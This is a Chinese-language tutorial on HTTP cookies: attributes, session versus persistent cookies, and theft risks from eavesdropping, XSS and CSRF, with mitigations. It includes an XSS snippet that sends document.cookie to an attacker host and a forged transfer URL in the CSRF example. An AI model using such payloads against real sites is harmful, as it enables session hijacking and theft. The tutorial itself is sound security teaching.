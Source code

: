 # 彻底了解cookies

## 前言

网络早期最大的问题之一是如何管理状态。简而言之，服务器无法知道两个请求是否来自同一个浏览器。当时最简单的方法是在请求时，在页面中插入一些参数，并在下一个请求中传回参数。这需要使用包含参数的隐藏的表单，或者作为URL参数的一部分传递。这两个解决方案都手动操作，容易出错。

网景公司当时一名员工Lou Montulli，在1994年将“cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，目前所有浏览器都支持cookies。

## cookie是什么

cookie翻译过来是“饼干，甜品”的意思，cookie在网络应用中到处存在，当我们浏览之前访问过的网站，网页中可能会显示：你好，王三少，这就会让我们感觉很亲切，像吃了一块很甜的饼干一样。

由于http是无状态的协议，一旦客户端和服务器的数据交换完毕，就会断开连接，再次请求，会重新连接，这就说明服务器单从网络连接上是没有办法知道用户身份的。怎么办呢？那就给每次新的用户请求时，给它颁发一个身份证（独一无二）吧，下次访问，必须带上身份证，这样服务器就会知道是谁来访问了，针对不同用户，做出不同的响应。，这就是Cookie的原理。

其实cookie是一个很小的文本文件，是浏览器储存在用户的机器上的。Cookie是纯文本，没有可执行代码。储存一些服务器需要的信息，每次请求站点，会发送相应的cookie，这些cookie可以用来辨别用户身份信息等作用。

## cookie的类型

可以按照过期时间分为两类：会话cookie和持久cookie。会话cookie是一种临时cookie，用户退出浏览器，会话Cookie就会被删除了，持久cookie则会储存在硬盘里，保留时间更长，关闭浏览器，重启电脑，它依然存在，通常是持久性的cookie会维护某一个用户周期性访问服务器的配置文件或者登录信息

持久cookie 设置一个特定的过期时间（Expires）或者有效期（Max-Age）

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2019 07:28:00 GMT;`

## cookie的属性

### cookie的域

产生Cookie的服务器可以向set-Cookie响应首部添加一个Domain属性来控制哪些站点可以看到那个cookie，例如下面： `Set-Cookie: name="wang"; domain="www.xxx.com"` 如果用户访问的是www.xxx.com那就会发送cookie: name="wang", 如果用户访问www.aaa.com（非www.xxx.com）就不会发送这个Cookie。

### cookie的路径 Path

Path属性可以为服务器特定文档指定Cookie，这个属性设置的url且带有这个前缀的url路径都是有效的。 例如：www.xxx.com 和 www.xxx.com/user/这两个url。www.xxx.com 设置cookie

```text
Set-cookie: id="123432";domain="www.xxx.com";
```

www.xxx.com/user/ 设置cookie：

```text
Set-cookie：user="wang", domain="www.xxx.com"; path=/user/
```

但是访问其他路径www.xxx.com/other/就会获得

```text
cookie: id="123432"
```

如果访问v/user/就会获得

```text
cookie: id="123432"
cookie: user="wang"
```

## 安全

多数网站使用cookie作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。 下面介绍几种cookie盗用和会话劫持的例子：

### 网络窃听

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

### 跨站点脚本XSS

使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

```markup
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

### 跨站请求伪造CSRF

CSRF（Cross Site Request Forgery） 跨站请求伪造。也被称为One Click Attack和Session Riding，通常缩写为CSRF或XSRF。如果从名字你还不不知道它表示什么，你可以这样理解：攻击者（黑客，钓鱼网站）盗用了你的身份，以你的名义发送恶意请求，这些请求包括发送邮件、发送消息、盗取账号、购买商品、银行转账，从而使你的个人隐私泄露和财产损失。

#### CSRF攻击实例

听了这么多，可能大家还云里雾里，光听概念可能大家对于CSRF还是不够了解，下面我将举一个例子来让大家对CSRF有一个更深层次的理解。 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。然后我们通过网页请求的方式 [http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2](http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2) 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后，服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx，他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 [http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx](http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx) 到支付宝后台。但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：[http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx](http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx) 并且通过黄色链接诱使我来访问他的网站。当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，而且这个请求会附带我的浏览器中的cookie。大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应 ，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接

## Cookie与Session的区别

* cookie数据存放在客户的浏览器上，session数据放在服务器上；
* cookie不是很安全，别人可以分析存放在本地的COOKIE并进行COOKIE欺骗，考虑到安全应当使用session；
* session会在一定时间内保存在服务器上。当访问增多，会比较占用你服务器的性能。考虑到减轻服务器性能方面，应当使用COOKIE；
* 单个cookie在客户端的限制是3K，就是说一个站点在客户端存放的COOKIE不能超过3K；

  Cookie和Session的方案虽然分别属于客户端和服务端，但是服务端的session的实现对客户端的cookie有依赖关系的，上面我讲到服务端执行session机制时候会生成session的id值，这个id值会发送给客户端，客户端每次请求都会把这个id值放到http请求的头部发送给服务端，而这个id值在客户端会保存下来，保存的容器就是cookie，因此当我们完全禁掉浏览器的cookie的时候，服务端的session也会不能正常使用（注意：有些资料说ASP解决这个问题，当浏览器的cookie被禁掉，服务端的session任然可以正常使用，ASP我没试验过，但是对于网络上很多用php和jsp编写的网站，我发现禁掉cookie，网站的session都无法正常的访问）。

